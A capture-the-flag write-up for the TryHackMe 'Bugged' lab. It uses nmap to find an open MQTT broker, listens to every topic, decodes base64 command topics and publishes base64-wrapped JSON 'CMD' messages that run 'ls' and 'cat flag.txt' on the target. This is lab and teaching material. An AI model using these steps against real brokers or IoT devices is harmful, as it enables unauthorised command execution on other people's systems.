 # 📝 Writeup – Bugged (TryHackMe)

---

## ENUMERATION
Standard start — quick port sweep:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Found ports: `22`, `1883`. Focused scan:

```bash
nmap -p 22,1883 -sC -sV -vv -oN scan.nmap <IP>
```

![nmap](screenshots/nmap1.png)

---

## PORT 1883 — MQTT basics (short)

If you haven’t dealt with MQTT before — it’s simple:

* **Broker**: central server that routes messages.
* **Clients**: devices/apps that either **publish** (send) or **subscribe** (receive) to topics.
* Topics are hierarchical strings like `home/living/temperature`.
* Wildcards:

  * `#` subscribes to all topics at and below that level (everything).
  * `+` is single-level wildcard.

Install the tools:

```bash
sudo apt update
sudo apt install mosquitto mosquitto-clients -y
```

---

## SUBSCRIBE & LISTEN

Subscribe to everything to see traffic:

```bash
mosquitto_sub -h <IP> -p 1883 -t '#' -v
```

* `-t '#'` = subscribe to all topics
* `-v` verbose

Screenshot of listening:
![mosquitto\_sub](screenshots/mosquitto_sub.png)

You’ll get messages like `topic payload`. One payload looked like base64. Decode it:

```bash
echo 'BASE64STRING' | base64 -d
```

Decoded payloads revealed a client ID and two topics:

* publisher: `U4vy....CHg/pub`
* subscriber: `XD2r....g0E/sub`

Looks like the service publishes on `U4vy.../pub` and reads commands on `XD2.../sub`.

---

## TALKING TO THE BROKER (PUBLISH)

We can publish to the `.../sub` topic to make the service respond on `.../pub`.

Example test message (raw):

```bash
mosquitto_pub -h <IP> -p 1883 -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m '{HELP}'
```

If the service expects base64 or another wrapper, adjust accordingly. In my run, after decoding flows I learned the expected formats were something like ``base64({"id":"<id>", "cmd":"HELP, SYS or CMD", "arg":"<arg>"})``

After sending the correctly structured message (the challenge used base64-wrapped payloads in messages), I got this helpful reply:
![HELP](screenshots/HELP.png)

Decoded it (example):

```bash
# If payload was base64
echo 'RECEIVED_BASE64' | base64 -d
```

---

## GETTING THE FLAG

I sent a `CMD` to run `ls` and then `cat flag.txt`. Example:
```bash
echo '{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd":"CMD", "arg":"ls"}' | base64
```
```bash
mosquitto_pub -h <IP> -p 1883 -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m '<base64>'
```   


Response (base64 or raw) arrives on the `.../pub` topic. Decode and enjoy the flag:
![flag](screenshots/flag.png)

---

## Notes, corrections & tips

* MQTT default port is **1883** (unencrypted); authenticated/secure brokers may use TLS/8883.
* You may encounter base64 wrapping, JSON, or custom framing — always inspect decoded payloads carefully.
* If you get weird characters after base64 decode, try trimming non-base64 chars or re-check the exact payload (some services add noise).
* If the service requires a particular client ID or QoS, `mosquitto_pub` supports `-i <clientid>` and `-q <qos>`.

---

## References / Further reading

* A helpful writeup on MQTT and pentesting: [https://medium.com/@srkasthuri/exploring-mqtt-security-a-deep-dive-for-pentesters-ed24cd3452c5](https://medium.com/@srkasthuri/exploring-mqtt-security-a-deep-dive-for-pentesters-ed24cd3452c5)
  (Useful background if you want to dig deeper into MQTT attack vectors.)

---

## Ethics & disclaimer

Do this only on lab machines or assets you have permission to test. Don’t be careless with devices that talk to real hardware — you can break things.

---
